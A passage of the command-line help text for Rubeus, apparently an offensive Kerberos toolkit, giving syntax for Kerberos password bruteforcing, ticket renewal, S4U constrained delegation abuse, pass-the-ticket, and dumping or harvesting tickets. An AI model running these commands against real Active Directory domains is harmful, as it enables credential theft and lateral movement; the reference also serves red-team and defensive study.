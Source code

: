         Retrieve a service ticket for one or more SPNs, optionally saving or applying the ticket:
            Rubeus.exe asktgs </ticket:BASE64 | /ticket:FILE.KIRBI> </service:SPN1,SPN2,...> [/enctype:DES|RC4|AES128|AES256] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap]

        Renew a TGT, optionally applying the ticket, saving it, or auto-renewing the ticket up to its renew-till limit:
            Rubeus.exe renew </ticket:BASE64 | /ticket:FILE.KIRBI> [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/autorenew] [/nowrap]

        Perform a Kerberos-based password bruteforcing attack:
            Rubeus.exe brute </password:PASSWORD | /passwords:PASSWORDS_FILE> [/user:USER | /users:USERS_FILE] [/domain:DOMAIN] [/creduser:DOMAIN\\USER & /credpassword:PASSWORD] [/ou:ORGANIZATION_UNIT] [/dc:DOMAIN_CONTROLLER] [/outfile:RESULT_PASSWORD_FILE] [/noticket] [/verbose] [/nowrap]


     Constrained delegation abuse:

        Perform S4U constrained delegation abuse:
            Rubeus.exe s4u </ticket:BASE64 | /ticket:FILE.KIRBI> </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap]
            Rubeus.exe s4u /user:USER </rc4:HASH | /aes256:HASH> [/domain:DOMAIN] </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap]

        Perform S4U constrained delegation abuse across domains:
            Rubeus.exe s4u /user:USER </rc4:HASH | /aes256:HASH> [/domain:DOMAIN] </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER /targetdomain:DOMAIN.LOCAL /targetdc:DC.DOMAIN.LOCAL [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/nowrap]


     Ticket management:

        Submit a TGT, optionally targeting a specific LUID (if elevated):
            Rubeus.exe ptt </ticket:BASE64 | /ticket:FILE.KIRBI> [/luid:LOGINID]

        Purge tickets from the current logon session, optionally targeting a specific LUID (if elevated):
            Rubeus.exe purge [/luid:LOGINID]

        Parse and describe a ticket (service ticket or TGT):
            Rubeus.exe describe </ticket:BASE64 | /ticket:FILE.KIRBI>


     Ticket extraction and harvesting:

        Triage all current tickets (if elevated, list for all users), optionally targeting a specific LUID, username, or service:
            Rubeus.exe triage [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM]

        List all current tickets in detail (if elevated, list for all users), optionally targeting a specific LUID:
            Rubeus.exe klist [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM]

        Dump all current ticket data (if elevated, dump for all users), optionally targeting a specific service/LUID:
            Rubeus.exe dump [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM] [/nowrap]

        Retrieve a usable TGT .kirbi for the current user (w/ session key) without elevation by abusing the Kerberos GSS-API, faking delegation:
            Rubeus.exe tgtdeleg [/target:SPN]
